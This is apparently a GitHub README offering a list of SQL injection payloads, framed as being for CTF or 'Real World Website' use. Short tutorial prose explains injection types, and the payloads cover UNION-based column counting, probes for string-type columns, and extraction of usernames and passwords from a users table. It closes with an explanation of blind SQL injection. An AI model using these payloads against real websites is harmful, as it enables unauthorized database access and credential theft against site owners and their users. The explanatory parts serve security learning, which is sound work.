 # SQL-Payload-

List of ALl SQL PAyload to be used for CTF or Real World Website !

![image](https://user-images.githubusercontent.com/82144868/210714729-ed83ccfa-6f56-4dce-ae99-d2c3ae8657b0.png)

SQL injection examples
There are a wide variety of SQL injection vulnerabilities, attacks, and techniques, which arise in different situations. Some common SQL injection examples include:

Retrieving hidden data, where you can modify an SQL query to return additional results.
Subverting application logic, where you can change a query to interfere with the application's logic.
UNION attacks, where you can retrieve data from different database tables.
Examining the database, where you can extract information about the version and structure of the database.
Blind SQL injection, where the results of a query you control are not returned in the application's responses.


UNION ATTACK 

- ' ORDER BY 1--
- ' ORDER BY 2--
- ' ORDER BY 3--
etc.

- ' UNION SELECT NULL--
- ' UNION SELECT NULL,NULL--
- ' UNION SELECT NULL,NULL,NULL--
etc

#Finding columns with a useful data type in an SQL injection UNION attack
The reason for performing an SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:

- ' UNION SELECT 'a',NULL,NULL,NULL--
- ' UNION SELECT NULL,'a',NULL,NULL--
- ' UNION SELECT NULL,NULL,'a',NULL--
- ' UNION SELECT NULL,NULL,NULL,'a'--

#Retrieving multiple values within a single column
- ' UNION SELECT username || '~' || password FROM users--

#Blind SQL injection vulnerabilities
Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

With blind SQL injection vulnerabilities, many techniques such as UNION attacks, are not effective because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.


